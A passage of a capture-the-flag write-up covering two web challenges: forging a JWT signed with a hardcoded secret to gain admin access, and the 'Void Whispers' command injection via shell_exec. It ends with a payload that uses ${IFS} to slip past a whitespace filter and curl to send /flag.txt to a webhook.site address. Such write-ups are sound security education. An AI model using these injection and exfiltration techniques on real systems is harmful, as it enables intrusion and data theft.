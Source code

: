 ```javascript
function getUsernameFromToken(token) {
  const secret = "halloween-secret";

  try {
    const decoded = jwt.verify(token, secret);
    return decoded.username;
  } catch (err) {
    throw new Error("Invalid token: " + err.message);
  }
}
```

We see that the session token requires the `secret key` to encode, so let's temporarily submit something and modify it in `Burp Suite`

![pic1](https://hackmd.io/_uploads/rJe3S858kg.png)

![pic2](https://hackmd.io/_uploads/B18RS89UJg.png)

![pic3](https://hackmd.io/_uploads/B13IUUqU1g.png)

Here, we need to provide the `key`, change the `name` to `Admin`    , and the `username` to `admin`, then switch the method to `GET` with the endpoint `/tickets`

![pic4](https://hackmd.io/_uploads/BkVzvL98ke.png)

![pic5](https://hackmd.io/_uploads/B1sVDI5L1x.png)

![pic6](https://hackmd.io/_uploads/rkQkO8c81e.png)

## Void Whispers

After reading the source code for a while, I noticed that the program adjusts the variables and applies regex to their values. However, the main vulnerability here lies in `challenge/controllers/IndexController.php`, specifically in the execution of `$sendMailPath` through:

```javascript
whichOutput = shell_exec("which $sendMailPath");
```
And here, the `$sendMailPath` variable is only checked to ensure the input does not contain whitespace:

```javascript
if (preg_match('/\s/', $sendMailPath)) {
      return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
    }
```

And since the result of the command is not displayed, I used a [webhook](https://webhook.site/) to extract the content of `flag.txt` and replaced the whitespace with`${IFS}`

`payload`
```shell
/usr/sbin/sendmail;curl${IFS}https://webhook.site/ac0401dc-4c52-427a-9ef0-0b5a8f8682dc${IFS}-d${IFS}@/flag.txt${IFS}
```
